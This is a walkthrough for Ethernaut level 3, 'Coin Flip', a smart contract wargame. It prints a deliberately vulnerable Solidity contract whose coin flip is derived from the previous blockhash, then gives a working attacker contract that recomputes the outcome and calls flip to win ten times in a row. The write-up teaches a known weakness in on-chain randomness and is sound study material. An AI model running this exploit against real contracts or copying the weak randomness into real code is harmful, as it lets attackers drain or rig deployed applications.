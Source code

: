 # Level 3: Coin Flip

This is the level 3 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Blocks](https://ethereum.org/en/developers/docs/blocks/) in Ethereum blockchain
- Solidity - interacting with a deployed contract at an address. Read [this](https://solidity-by-example.org/interface/) or better watch [this](https://www.youtube.com/watch?v=YWtT0MNHYhQ)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Basically, we need to predict outcome of coin flip correctly 10 times in a row to win.

The contract given tries to simulate random coin flip by generating `true` or `false` using the block number of network (Ropsten in our case). But this is not actually really random! You can very easily query the network to see the current block number.

Turns out random number generation is one of the serious pitfalls of blockchains due to deterministic nature. That's why there are dedicated services for the purpose like [Chainlink VRF](https://blog.chain.link/random-number-generation-solidity/).

Since this block number can be easily accessible, we can also generate the result of coin flip and feed this result to `flip` function to have a correct guess and increment `consecutiveWins`. We are able to do this because block time of the network will be long enough so that `block.number` doesn't change between function calls.

We'll write a solidity contract (on Remix IDE) with almost same coin-flip generation code `CoinFlipGuess` & call the `flip` of given `CoinFlip` contract at deployed instance address, with already determined result of flip:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;
    }
}
```

I'm keeping track of `consecutiveWins` in `CoinFlipGuess` too and returning it from `coinFlipGuess`, just so that I can see it increasing.

Remember to deploy the above contract on Ropsten network because the target - `CoinFlip` is on Ropsten too. 

Get the instance address of give `CoinFlip` instance, so that we can give it to `coinFlipGuess` as param:

```javascript
contract.address()

// Output: <your-instance-address>
```

Now, simply call `coinFlipGuess` method (on Remix) with `<your-instance-address>` as only parameter, 10 times with successful transaction.

Go back to console and query `consecutiveWins` from `CoinFlip` instance:
```javascript
await contract.consecutiveWins().then(v => v.toString())

// Output: '10'
```

You may be tempted to run a loop to call `coinFlipGuess` 10 times automatically, but it won't work because of the guard `if` statement in `CoinFlip`:
```

if (lastHash == blockValue) {
   revert();
}
```
The invocation will revert if block number was same as in previous invocation. Since `lastHash` / `blockValue` is derived from `block.number`.

Game rigged successfully.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

